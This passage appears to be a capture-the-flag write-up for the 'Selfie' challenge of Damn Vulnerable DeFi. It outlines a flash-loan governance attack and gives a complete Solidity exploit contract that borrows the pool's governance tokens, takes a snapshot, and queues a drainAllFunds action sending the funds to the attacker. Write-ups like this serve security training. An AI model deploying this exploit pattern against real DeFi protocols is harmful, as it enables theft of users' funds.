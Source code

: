 ```javascript
```

## 6. Selfie

This attack is separated in two steps:

- Step 1:
  
  - Take out a flash loan of the governance token
  
  - Queue an action to call `drainAllFunds`

- Step 2:
  
  - Wait the amount of days (via `provider.send()`)
  
  - Execute the action

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SelfiePool.sol";
import "./SimpleGovernance.sol";
import "../DamnValuableTokenSnapshot.sol";

contract SelfieExploit {
    SelfiePool pool;
    SimpleGovernance governance;
    DamnValuableTokenSnapshot token;
    uint256 public actionId;
    address attacker;

    constructor(
        address _pool,
        address _governance,
        address _token,
        address _attacker
    ) {
        pool = SelfiePool(_pool);
        governance = SimpleGovernance(_governance);
        token = DamnValuableTokenSnapshot(_token);
        attacker = _attacker;
    }

    function attack() external {
        pool.flashLoan(token.balanceOf(address(pool)));
    }

    function receiveTokens(address _token, uint256 _amount) external {
        token.snapshot();
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            attacker
        );
        actionId = governance.queueAction(address(pool), data, 0);
        IERC20(_token).transfer(address(pool), _amount);
    }
}
```
